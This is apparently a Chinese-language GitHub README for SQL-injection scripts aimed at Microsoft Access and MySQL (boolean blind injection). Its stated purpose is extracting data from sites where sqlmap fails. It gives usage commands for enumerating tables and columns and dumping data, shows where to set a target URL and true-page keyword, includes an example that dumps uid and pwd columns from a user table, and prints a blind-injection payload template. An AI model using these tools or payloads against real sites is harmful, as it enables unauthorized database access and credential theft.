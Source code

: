 # SQL-injection

# 1.写这些脚本的目的

解决sqlmap不能跑的站点，并且手工注入又会消耗大量的时间和精力的情况。

# 2.用法

## 2.1 ACCESS-Injection

Blog ： http://47.95.206.199/?p=419
```bash
python3 inj.py -u Url --tables --keyword=true_page_keyword [--thread=20] #爆表名,--thread参数可选，默认为10

python3 inj.py -u Url -T table_name --columns --keyword=true_page_keyword [--thread=20] #爆表名

python3 inj.py -u Url -T table_name -C col_name1,col_name2... --dump --keyword=keyword[--thread=20] #爆数据
```
## 2.2 MYSQL-Bind-injection

Blog ： http://47.95.206.199/?p=364

1>第一处
```python
#Target URL
url = "http://targetURL//index.php?a=index&f=ilist&p="
#keyword 用于判断页面是否正确
keyword ="keyword"
```
将代码开头的URL和keyword修改
2>第二处：需要使用什么功能就把什么功能的代码注释取消即可，至于该改的table_name,column_name自己改一下
```python
    info = Info()
    #注入当前数据库的用户
    #info.user()
    #注入数据库的版本
    #info.version()
    #注入当前数据库的名字
    #info.database()
    #注入表名
    #run()
    #注入列名
    run_column("shi_user")
    #注入数据
    #columnL = ["uid","pwd"]
    #run_value("pw_user",*columnL)```
    
3>爆列中数据的时候，列名请填写两个，在程序写死了，如果需要多个列名请修改第334行代码：

e.g.三个列
```python
payload = "-1 or ascii(substr((select concat(%s,0x7c,%s,0x7c,%s) from %s limit %s,1),%s,1))=%s" \
% (self.column[0],self.column[1],self.column[2],self.table, self.i, x, n)
```

```html
###########
├── Readme.md               // 帮助文档 
├── ACCESS-Injection        // ACCESS的逐字猜解法脚本
│   ├── injection.py        //主程序
│   ├── table.txt           //常用表名，来自sqlmap
│   ├── column.txt          //常用列名，来自sqlmap
├── MYSQL-Bind-injection    //mysql基于布尔盲注的脚本
│   ├── injection.py        //主程序

```
